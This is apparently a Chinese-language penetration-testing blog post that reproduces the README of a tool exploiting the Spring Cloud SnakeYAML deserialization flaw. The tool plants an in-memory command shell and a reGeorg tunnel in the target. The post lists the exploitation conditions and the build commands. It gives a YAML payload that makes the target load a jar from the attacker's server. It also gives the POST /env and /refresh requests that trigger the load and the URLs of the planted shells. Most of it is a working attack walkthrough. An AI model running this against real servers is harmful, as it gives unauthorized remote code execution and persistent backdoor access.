 ```yaml
---
title: "Spring Cloud SnakeYAML 一键注册cmd shell和reGeorg"
date: 2020-09-24T18:48:16+08:00
draft: false
tags:
- Java
- 内存shell
- 反序列化
series:
-
categories:
- 渗透测试
---
```


使用Spring Cloud SnakeYAML的反序列化漏洞一键注册cmd shell和reGeorg

<!--more-->

# 项目地址
https://github.com/Y4er/yaml-payload

# README
Spring Cloud SnakeYAML 一键注册cmd shell和reGeorg

利用条件：
- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标依赖的 `spring-cloud-starter` 版本 < 1.3.0.RELEASE
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）

仅在JDK1.8及Spring1.x测试通过,其他版本自测.

利用方法如下：
## 编译class文件然后打jar包

```bash
cd yaml-payload
javac src/artsploit/AwesomeScriptEngineFactory.java -cp ./lib
javac src/artsploit/Tunnel.java -cp ./lib
javac src/artsploit/GameInfo.java -cp ./lib
jar -cvf yaml-payload.jar -C src/ .
```

## 托管 yml 和 jar 文件
在自己控制的`vps`机器上开启一个简单`HTTP`服务器，端口尽量使用常见`HTTP`服务端口（80、443）

```bash
# 使用 python 快速开启 http server
python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在网站根目录下放置后缀为`yml`的文件`yaml-payload.yml`,内容如下:

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://your-vps-ip/yaml-payload.jar"]
  ]]
]
```

在网站根目录下放置打包好的`yaml-payload.jar`

## 设置`spring.cloud.bootstrap.location`属性

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/yaml-payload.yml
```

## 刷新配置

```
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

## 访问注入的shell
1. reGeorg: http://localhost:9092/api/v1/tunnel
2. cmd shell: http://localhost:9092/api/v1/game POST:code=whoami

# 参考
1. https://github.com/LandGrey/SpringBootVulExploit
2. https://www.anquanke.com/post/id/198886
3. https://github.com/artsploit/yaml-payload

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**